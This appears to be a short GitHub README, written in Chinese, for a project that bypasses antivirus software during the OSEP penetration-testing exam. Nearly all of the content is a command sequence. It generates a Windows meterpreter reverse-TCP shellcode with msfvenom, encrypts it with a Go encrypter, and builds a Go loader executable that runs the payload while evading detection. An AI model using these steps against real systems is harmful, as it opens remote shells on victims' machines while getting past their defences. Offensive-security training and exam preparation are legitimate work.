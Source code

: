 # OSEP_Bypass_AV

## 简介

本项目主要用于 OSEP 考试中用来 bypass 杀软


```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.49.119 LPORT=8080 -f raw -o shellcode.bin
go build encrypter.go
encrypter.exe -i shellcode.bin
go build loader.go

loader.exe 就是 可执行程序

```
